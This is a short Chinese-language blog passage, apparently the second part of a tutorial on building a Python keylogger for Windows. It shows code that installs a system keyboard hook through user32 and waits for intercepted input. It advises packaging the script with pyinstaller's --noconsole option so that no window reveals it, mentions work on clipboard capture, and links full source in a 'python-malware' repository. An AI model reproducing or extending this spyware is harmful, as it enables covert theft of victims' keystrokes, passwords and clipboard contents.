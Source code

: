 ### last

创建`hook`类实例，创建指针`ptr`，安装钩子`install_hook(ptr)`，等待钩子截获系统信息。

```python
hook = hook()
ptr = HOOKPROC(hook_procedure)
hook.install_hook(ptr)
msg = MSG()
user32.GetMessageA(byref(msg), 0, 0, 0)
```

用pyinstaller将文件打包成exe，可以用参数-w/--noconsole来隐藏dos窗口

解决part1的cpu占用率高问题，但未解决右键复制获取剪粘板数据。

![part2_1](https://yui77111.github.io/assets/images/article/python/2_1.png)

![part2_2](https://yui77111.github.io/assets/images/article/python/2_2.png)


源代码已上传致[gayhub](https://github.com/yui77111/python-malware/blob/master/keylogger/part2.py)